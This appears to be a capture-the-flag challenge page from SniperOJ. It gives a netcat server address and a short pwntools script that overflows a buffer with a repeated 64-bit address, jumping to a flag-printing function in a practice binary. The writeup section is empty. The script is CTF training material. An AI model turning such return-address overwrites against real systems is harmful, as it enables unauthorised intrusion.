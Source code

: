#### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20002

#### Solution
```python
#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * TODO

